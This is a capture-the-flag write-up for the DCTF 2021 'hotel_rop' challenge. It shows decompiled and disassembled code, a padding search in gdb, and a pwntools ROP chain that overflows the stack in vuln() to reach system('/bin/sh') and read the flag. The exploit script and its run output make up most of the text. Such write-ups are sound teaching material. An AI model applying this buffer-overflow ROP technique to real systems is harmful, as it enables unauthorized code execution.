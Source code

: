 
```bash
$ checksec --file hotel_rop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   hotel_rop
```

*vuln* function allows to input *0x100* bytes, functions *california* and *silicon_valley* assign *"/bin/sh"* to *win_land*, function *loss* calls *system(win_land)* if *param_1* is *0x1337c0de* and sum of *param_1* and *param_2* equals to *0xdeadc0de*. To use ROP to exploit, needed to call *california*, then *silicon_valley*, and finally *loss* to spawn a shell.

```c
void california(void)
{
  puts("Welcome to Hotel California");
  puts("You can sign out anytime you want, but you can never leave");
  *(undefined *)((long)&win_land + (long)len) = 0x2f;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x62;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x69;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x6e;
  len = len + 1;
  return;
}

void silicon_valley(void)
{
  puts("You want to work for Google?");
  *(undefined *)((long)&win_land + (long)len) = 0x2f;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x73;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x68;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0;
  len = len + 1;
  return;
}

void loss(int param_1,int param_2)
{
  if (param_2 + param_1 == -0x21523f22) {
    puts("Dis is da wae to be one of our finest guests!");
    if (param_1 == 0x1337c0de) {
      puts("Now you can replace our manager!");
      system((char *)&win_land);
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  }
  return;
}

void vuln(void)
{
  char local_28 [28];
  int local_c;
  
  puts("You come here often?");
  fgets(local_28,0x100,stdin);
  if (local_c == 0) {
    puts("Oh! You are already a regular visitor!");
  }
  else {
    puts("I think you should come here more often.");
  }
  return;
}
```

### Address Of The Three

The program printed address of *main* function, with it we could find address of the three functions about to call by adding the difference.

```python
main_addr = pr.readline().strip().decode()
main_addr = int(main_addr[main_addr.find('street ')+7:], 16)
print('main @', hex(main_addr))

ca_addr = main_addr + (elf.sym['california']-elf.sym['main'])
si_addr = main_addr + (elf.sym['silicon_valley']-elf.sym['main'])
loss_addr = main_addr + (elf.sym['loss']-elf.sym['main'])
```

### Pass The Parameters

According to *objdump* output, *loss* used register *edi* and *esi* for the two parameters. The payload format was ``<padding><california address><silicon_valley address><pop rdi gadget><0x1337c0de><pop rsi gadget><0xdeadc0de-0x1337c0de><loss address>``.

```asm
0000000000001185 <loss>:
    1185:       55                      push   %rbp
    1186:       48 89 e5                mov    %rsp,%rbp
    1189:       48 83 ec 10             sub    $0x10,%rsp
    118d:       89 7d fc                mov    %edi,-0x4(%rbp)
    1190:       89 75 f8                mov    %esi,-0x8(%rbp)
    1193:       8b 55 fc                mov    -0x4(%rbp),%edx
    1196:       8b 45 f8                mov    -0x8(%rbp),%eax
    1199:       01 d0                   add    %edx,%eax
    119b:       3d de c0 ad de          cmp    $0xdeadc0de,%eax
    11a0:       75 37                   jne    11d9 <loss+0x54>
    11a2:       48 8d 3d 5f 0e 00 00    lea    0xe5f(%rip),%rdi        # 2008 <_IO_stdin_used+0x8>
    11a9:       e8 82 fe ff ff          callq  1030 <puts@plt>
    11ae:       81 7d fc de c0 37 13    cmpl   $0x1337c0de,-0x4(%rbp)
    11b5:       75 22                   jne    11d9 <loss+0x54>
    11b7:       48 8d 3d 7a 0e 00 00    lea    0xe7a(%rip),%rdi        # 2038 <_IO_stdin_used+0x38>
    11be:       e8 6d fe ff ff          callq  1030 <puts@plt>
    11c3:       48 8d 3d a6 2e 00 00    lea    0x2ea6(%rip),%rdi        # 4070 <win_land>
    11ca:       e8 71 fe ff ff          callq  1040 <system@plt>
    11cf:       bf 00 00 00 00          mov    $0x0,%edi
    11d4:       e8 a7 fe ff ff          callq  1080 <exit@plt>
    11d9:       90                      nop
    11da:       c9                      leaveq 
    11db:       c3                      retq 
```

*pwn.rop* couldn't find *'pop rsi;ret'* gadget, an alternative was *'pop rsi ; pop r15 ; ret'*.

```bash
$ ROPgadget --binary hotel_rop |grep pop\ rsi
0x0000000000001409 : pop rsi ; pop r15 ; ret
```

```python
pop_rdi = pwn.p64(main_addr+(rop.find_gadget(['pop rdi', 'ret']).address-elf.sym['main']))
pop_rsi = pwn.p64(main_addr+(rop.find_gadget(['pop rsi', 'pop r15', 'ret']).address-elf.sym['main']))
```

### Padding Size

Used cyclic string to find padding, which is 40 bytes for this program.

```bash
gef➤  pattern create 100   
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa       
[+] Saved as '$_gef0'                                                               
gef➤  r                                                                                                                                                                 
Starting program: /home/zex/lab_ex/hacking-lab/dctf-2021/hotel-rop/hotel_rop                                                                                            
Welcome to Hotel ROP, on main street 0x55555555536d                                                                                                                     
You come here often?                                                                
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa  
...
[#0] Id 1, Name: "hotel_rop", stopped 0x55555555536c in vuln (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x55555555536c → vuln()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  info frame
Stack level 0, frame at 0x7fffffffdac8:
 rip = 0x55555555536c in vuln; saved rip = 0x6161616161616166
 called by frame at 0x7fffffffdad8
 Arglist at 0x6161616161616165, args: 
 Locals at 0x6161616161616165, Previous frame's sp is 0x7fffffffdad0
 Saved registers:
  rip at 0x7fffffffdac8
gef➤  pattern search 0x6161616161616166
[+] Searching '0x6161616161616166'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
```


### Cat Flag.txt

The payload can be prepared as follow.

```python

payload = b'A'*40
payload += pwn.p64(ca_addr)
payload += pwn.p64(si_addr)
payload += pop_rdi + pwn.p64(0x1337c0de)
payload += pop_rsi + pwn.p64(0xcb760000) + pwn.p64(0xcb760000)
payload += pwn.p64(loss_addr)
```

With prepared payload can finally request to print the flag.

```
print(len(payload), payload)
pr.sendafter('often?\n', payload)
pr.sendline()
pr.sendline('cat flag.txt')
print(pr.readall(4))
```

```bash
$ python3 exploit.py 
[+] Opening connection to dctf1-chall-hotel-rop.westeurope.azurecontainer.io on port 7480: Done
[*] '/home/zex/lab_ex/hacking-lab/dctf-2021/hotel-rop/hotel_rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for 'hotel_rop'
main @ 0x5611556aa36d
ca @ 0x5611556aa1dc
si @ 0x5611556aa283
loss @ 0x5611556aa185
104 b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xdc\xa1jU\x11V\x00\x00\x83\xa2jU\x11V\x00\x00\x0b\xa4jU\x11V\x00\x00\xde\xc07\x13\x00\x00\x00\x00\t\xa4jU\x11V\x00\x00\x00\x00v\xcb\x00\x00\x00\x00\x00\x00v\xcb\x00\x00\x00\x00\x85\xa1jU\x11V\x00\x00'
[+] Receiving all data: Done (257B)
[*] Closed connection to dctf1-chall-hotel-rop.westeurope.azurecontainer.io port 7480
b'I think you should come here more often.\nWelcome to Hotel California\nYou can sign out anytime you want, but you can never leave\nYou want to work for Google?\nDis is da wae to be one of our finest guests!\nNow you can replace our manager!\ndctf{ch41n_0f_h0t3ls}'
```

For full source code checkout [here](https://github.com/onealmond/hacking-lab/blob/master/dctf-2021/hotel-rop/exploit.py).
